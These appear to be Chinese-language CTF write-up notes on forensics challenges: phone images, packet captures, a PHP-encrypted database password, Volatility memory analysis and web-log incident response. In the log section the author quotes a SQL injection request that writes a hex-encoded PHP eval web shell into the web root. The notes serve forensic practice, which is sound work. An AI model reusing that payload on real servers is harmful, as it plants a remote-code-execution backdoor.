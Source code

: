 ## [2022蓝帽杯]手机取证1
### 思路和过程：
- 全程从虚拟环境中查找图片627604C2-C586-48C1-AA16-FF33C3022159.PNG的图片，结果会找到几个路径，打开后可以查看其分辨率；

## [2023陇剑杯]Wireshark1_1
### 工具wireshark
### 思路和过程：
- 和正常一样的打开流量包查看，题目要被入侵的主机ip，寻找流量交互，把交互最频繁的几个ip仔细检查并提交（虽然第一个就提交错了）但是因为没有次数限制所以可以多尝试提交答案；

## [蓝帽杯 2022 初赛]网站取证_2---请提交数据库连接的明文密码
### 工具：在线php工具
### 思路：
- 打开www文件查看代码，题目要求找到数据库的连接密码，那么打开database这个文件，打开后可以看到数据库的连接信息
![](./images/查看数据库.png)
- 其中密码部分调用了一个加密函数my-encrypt，接着去打开这个php文件，由于个人不是很懂php，所以去网络查看参考资料，使用在线的php工具可以添加输出语句echo my_encrypt()来使得结果输出
- 得到flag为KBLT123；
### 思考：
- 在使用在线php工具时老是没有结果或者错位，最后发现是版本号选择不对...

## [OtterCTF 2018]General Info----------------参考网络资料
### 思路和过程：
- 首先查看一下镜像的信息
python2 vol.py -f /home/kali/Desktop/OtterCTF.vmem imageinfo
- 查看一下注册表
python2 vol.py -f /home/kali/Desktop/OtterCTF.vmem --profile=Win7SP1x64 hivelist
- 主机名会出储存在\REGISTRY\MACHINE\SYSTEM中的ControlSet001\Control\ComputerName\ComputerName里面
python2 vol.py -f /home/kali/Desktop/OtterCTF.vmem --profile=Win7SP1x64 printkey -o 0xfffff8a000024010 -K "ControlSet001\Control\ComputerName\ComputerName"
- 通过netscan来查看网络
python2 vol.py -f /home/kali/Desktop/OtterCTF.vmem --profile=Win7SP1x64 netscan

## [应急响应]welog1
### 工具：ai，cyberchef
### 思路和过程：
- 根据以前做过的日志题目，使用编辑器打开日志信息并仔细查看有问题的地方（一般是php或者长度非常长的信息语句），定位到可疑的一些语句192.168.150.1 - - [10/Mar/2023:08:19:46 +0000] "GET /index.php?id=0%27%20union%20select%201,0x223c3f70687020406576616c28245f504f53545b273362393064373564653234386365353562363665386533303837336236303030275d293b3f3e22,3,4%20into%20outfile%20%22/var/www/html/ShEll1.php%22; HTTP/1.1" 200 1194 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36"，然后打开ai模型给他让他分析这是什么，得到这是一种sql注入，放进编码网站中进行编码就可以得到注入的php，其中P的OST参数可以尝试提交flag。

## [陇剑杯 2021]SQL注入
### 学习盲注
